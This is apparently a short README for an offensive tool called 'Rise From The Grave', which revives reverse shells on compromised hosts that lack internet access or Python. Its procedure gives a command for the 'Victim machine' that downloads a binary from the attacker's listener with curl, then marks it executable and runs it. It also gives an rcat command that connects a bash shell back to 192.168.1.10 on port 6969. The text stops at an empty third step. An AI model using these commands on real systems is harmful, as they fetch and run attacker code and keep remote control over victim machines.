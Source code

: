 # RISE FROM THE GRAVE 

THis tool is for when you have established a reverse shell to a host BUT the host has no connection to the outside internet AND doesn't have python. Revive those dead shells 



Procedure


1. Host RFTG will start listening and issue the command to run on the Victim machine ex ``curl -O http://0.0.0.0:6969/rftg & chmod +x rftg && rftg``
2. Run the command on the Established Reverse shell and note the output ``rcat connect -s bash 192.168.1.10 6969``
3. 
